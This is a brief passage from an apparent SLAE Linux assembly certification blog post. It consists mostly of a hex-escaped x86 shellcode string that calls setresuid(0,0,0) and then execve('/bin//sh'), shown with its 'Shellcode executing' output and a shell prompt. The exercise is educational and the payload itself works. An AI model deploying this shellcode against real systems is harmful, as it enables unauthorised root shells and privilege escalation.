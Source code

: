```c
\x31\xc9\xf7\xe1\x89\xcb\x99\xb0\xa4\xcd\x80\xf7\xe1\x51\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x51\x89\xe2\x53\x89\xe1\xb0\x0b\xcd\x80\x00\x00\x00\x00
[+] Shellcode executing ...
$

```

This blog post has been created for completing the requirements of the SecurityTube Linux Assembly Expert certification:

http://www.securitytube-training.com/online-courses/securitytube-linux-assembly-expert/

Student ID: SLAE-3763